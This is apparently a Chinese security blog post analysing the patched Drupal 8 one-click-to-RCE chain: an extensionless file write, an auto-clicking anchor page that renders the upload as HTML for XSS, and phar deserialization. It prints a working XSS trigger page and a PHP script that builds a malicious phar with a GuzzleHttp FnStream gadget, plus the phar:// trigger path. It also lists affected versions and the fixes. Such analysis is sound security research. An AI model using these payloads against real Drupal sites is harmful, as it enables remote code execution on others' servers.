 ```yaml
---
title: Drupal 1-click to RCE分析
date: 2019-04-19 19:13:56
tags:
- phar
- rce
- xss
---
```


2019年4月11日，zdi博客公开了一篇[A SERIES OF UNFORTUNATE IMAGES: DRUPAL 1-CLICK TO RCE EXPLOIT CHAIN DETAILED](https://www.zerodayinitiative.com/blog/2019/4/11/a-series-of-unfortunate-images-drupal-1-click-to-rce-exploit-chain-detailed).

整个漏洞的各个部分没什么特别的，巧妙的是，攻击者使用了3个漏洞+几个小trick，把所有的漏洞链接起来却成了一个还不错的利用链，现在我们就来一起看看整个漏洞.

<!--more-->


# 无后缀文件写入

在Drupal的机制中，设定了这样一条规则。

用户上传的图片文件名将会被保留，如果出现文件名相同的情况，那么文件名后面就会被跟上`_0`,`_1`依次递增。

在Drupal中为了兼容各种编码，在处理上传文件名时，Drupal会对文件名对相应的处理，如果出现值小于`0x20`的字符，那么就会将其转化为`_`。
![image.png-130.8kB][1]

但如果文件名中，如果出现了`\x80`到`\xff`的字符时，PHP就会抛出`PREG_BAD_UTF8_ERROR`，如果发生错误，那么`preg_replace`就会返回NULL，`$basename`就会被置为NULL。

![image.png-25.4kB][2]

当basename为空时，后面的文件内容会被写入到形似`_0`的文件内
![image.png-297.1kB][3]

在这个基础下，原本会被上传到
```
 /sites/default/files/pictures/<YYYY-MM>/
```

则会被写入
```
 /sites/default/files/pictures/<YYYY-MM>/_0
```

**当服务端开启了评论头像上传，或者是拥有作者账号时**

攻击者可以通过上传一张恶意构造的gif图，然后再上传一张带有恶意字符的同一张图，那么就会将恶意图片的内容写入到相应目录的`_0`中

![image.png-214.9kB][4]

但如果我们直接访问这个文件时，该文件可能不会解析，这是因为
1、浏览器首先会根据服务端给出的content-type解析页面，而服务端一般不会给空后缀的文件设置`content-type`，或者设置为`application/octet-stream`
2、其次浏览器会根据文件内容做简单的判断，如果文件的开头为`<html>`，则部分浏览器会将其解析为html
3、部分浏览器还可能会设置默认的content-type，但大部分浏览器会选择不解析该文件。

这时候我们就需要一个很特殊的小trick了，**a标签可以设置打开文件的type(only not for chrome)**

当你访问该页面时，页面会被解析为html并执行相应的代码。
```
<html>
<head>
</head>
  <body>
  <a id='a' href="http://127.0.0.1/drupal-8.6.2/sites/default/files/2019-04/_6" type="text/html">321321</a>

  <script type="text/javascript">
    var a  = document.getElementById('a')
    a.click()
  </script>
  </body>
</html>
```

当被攻击者访问该页面时，我们就可以执行任意的xss，这为后续的利用带来了很大的便利，我们有了一个同源环境下的任意js执行点，让我们继续看。


# phar反序列化RCE

2018年BlackHat大会上的Sam Thomas分享的File Operation Induced Unserialization via the “phar://” Stream Wrapper议题，原文[https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf ](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf )。

在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了`phar://`这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

也就是说，如果我们找到可控的文件操作函数，其参数可控为phar文件，那么我们就可以通过反序列化执行js。

在Drupal中，存在file system功能，其中就有一个功能，会把传入的地址做一次`is_dir`的判断，这里就存在这个问题

![image.png-337kB][5]

![image.png-82.8kB][6]

直接使用下面的payload生成文件
```
<?php

namespace GuzzleHttp\Psr7{
    class FnStream{

        public $_fn_close = "phpinfo";

        public function __destruct()
        {
            if (isset($this->_fn_close)) {
                call_user_func($this->_fn_close);
            }
        }
    }
}

namespace{
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new \GuzzleHttp\Psr7\FnStream();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
}
?>
```
修改后缀为png之后，传图片到服务端，并在`file system`中设置
```
phar://./sites/default/files/2019-04/drupal.png
```

即可触发

![image.png-215kB][7]

# 漏洞要求

这个漏洞在Drual8.6.6的更新中被修复，所以漏洞要求为

- <= Durpal 8.6.6
- 服务端开启评论配图或者攻击者拥有author以上权限的账号
- 被攻击者需要访问攻击者的url

当上面三点同时成立时，这个攻击链就可以被成立

# 漏洞补丁

## 无后缀文件写入 SA-CORE-2019-004

[https://www.drupal.org/SA-CORE-2019-004](https://www.drupal.org/SA-CORE-2019-004)

![image.png-40.6kB][8]

如果出现该错误直接抛出，不继续写入

[https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7](https://github.com/drupal/drupal/commit/82307e02cf974d48335e723c93dfe343894e1a61#diff-5c54acb01b2253384cfbebdc696a60e7)

## phar反序列化  SA-CORE-2019-002

[https://www.drupal.org/SA-CORE-2019-002](https://www.drupal.org/SA-CORE-2019-002)


# 写在最后

回顾整个漏洞，不难发现其实整个漏洞都是由很多个不起眼的小漏洞构成的，Drupal的反序列化POP链已经被公开许久，phar漏洞也已经爆出一年，在2019年初，Drupal也更新修复了这个点，而`preg_replace`报错会抛出错误我相信也不是特别特别的特性，把这三个漏洞配合上一个很特别的a标签设置content-type的trick，就成了一个很漂亮的漏洞链。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rkle8o5mqjrbojwjk5tjzx1w/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/indn6qfpopamyrayhdcce9la/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s5oij4hcmjf0k2z0e0glftfy/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/64be2k19ac5nknfenv5ze9d2/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/02tpqziep6h2sq4oerq5nel9/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7bprh31be2igfao2ozo7gkia/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4j71xgb53o74nwfue1fp2y01/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/105tpluq69zpoggbzcj879hc/image.png
